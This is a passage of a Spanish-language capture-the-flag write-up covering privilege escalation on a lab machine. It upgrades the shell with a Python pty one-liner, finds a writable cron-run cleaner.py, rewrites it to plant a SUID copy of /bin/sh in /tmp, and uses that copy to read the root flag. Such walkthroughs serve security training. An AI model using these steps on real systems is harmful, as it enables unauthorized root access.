 ```bash
```

Con esto, habremos conseguido acceso a la máquina

# Privilege escalation
Para mejorar la estabilidad de la terminal, podemos usar el siguiente comando:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Para elevar privilegios, necesitamos identificar archivos que puedan ser escritos. Podemos listar estos archivos con el siguiente comando:
```bash
find / -writable 2<dev/null
```
Dentro de los archivos que podemos escribir, encontramos uno llamado cleaner.py ubicado en /lib/log. Se trata de un pequeño programa Python que funciona como un script para limpiar archivos basura desde la carpeta /tmp. Estos archivos suelen ejecutarse en intervalos de tiempo específicos
```bash
/dev/tty
/dev/urandom
/dev/random
/dev/full
/dev/zero
/dev/null
/lib/log/cleaner.py
```
```bash
$ cat cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```
Vamos a utilizar este script, modificándolo para obtener acceso root. Para lograrlo, reemplazaremos el contenido de la función os.system por /bin/sh y le añadiremos permisos SUID
```bash
$ cat cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('cp /bin/sh /tmp/shell')
        os.system('chmod u+s /tmp/shell')
except:
        sys.exit()
```
Después de un tiempo, el script creará un archivo llamado 'shell' en el directorio /tmp con permisos SUID. Al ejecutar este archivo, obtendremos permisos de root
```bash
$ ls /tmp
shell
$ cd /tmp
$ ./shell
```
Finalmente, podremos obtener la flag dirigiéndonos al directorio raíz y buscando el archivo proof.txt
```bash
# cd /root
# cat proof.txt
Good job, you did it! 


```